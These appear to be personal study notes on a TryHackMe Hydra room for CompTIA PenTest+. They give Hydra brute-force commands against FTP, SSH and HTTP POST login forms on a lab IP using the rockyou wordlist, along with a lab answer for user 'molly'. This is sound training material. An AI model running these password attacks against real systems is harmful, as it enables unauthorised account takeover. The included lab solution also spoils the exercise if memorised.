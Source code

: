 ## PATH : Comptia pentest+

## [Hydra - ROOM](https://tryhackme.com/room/hydra)


It is a software which enables to perfom brute force over a 

Generally the passworld list is rockyoutxt stored here : /usr/share/wordlists/rockyou.txt

Example : 
* `ftp` : hydra -l user -P passlist.txt ftp://10.10.12.179

* `ssh` : hydra -l <username> -P <full path to pass> 10.10.12.179 -t 4 ssh

        servicesOption   |	Description
        _____________________________
        -l	           | specifies the (SSH) username for login
        _______________________________
        -P	           | indicates a list of passwords
        _________________________________
        -t	           | sets the number of threads to spawn   


*   `Post web form` : sudo hydra -l <username> -P <wordlist> 10.10.12.179 http-post-form "<path>:<login_credentials>:<invalid_response>"

            Option |	Description
            -l	   | the username for (web form) login
            -P	   | the password list to use http-post-form	the type of the form is POST
            <path> |  the login page URL, for example, login.php
            <login_credentials> |	the username and password used to log in, for example, username=^USER^&password=^PASS^
            <invalid_response>	| part of the response when the login fails
            -V	verbose output for every attempt

A more concrete example :

    hydra -l <username> -P <wordlist> 10.10.12.179 http-post-form "/endpoint:username=^USER^&password=^PASS^:F=incorrect" -V

-  The login page is only /, i.e., the main IP address.
- The username is the form field where the username is entered
- The specified username(s) will replace ^USER^
- The password is the form field where the password is entered
- The provided passwords will be replacing ^PASS^
- Finally, F=incorrect is a string that appears in the server reply when the login fails


Tips : 
* Utiliser BurpSuite pour intercepter la requête et voir quels champs sont envoyés (username ? login ?  && password ?)
* Ensuite on Il faut remplace /endpoint par le endpoint sur lequel le post doit être fait.

#### Solution Task 2 
1. hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.179 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

2. 

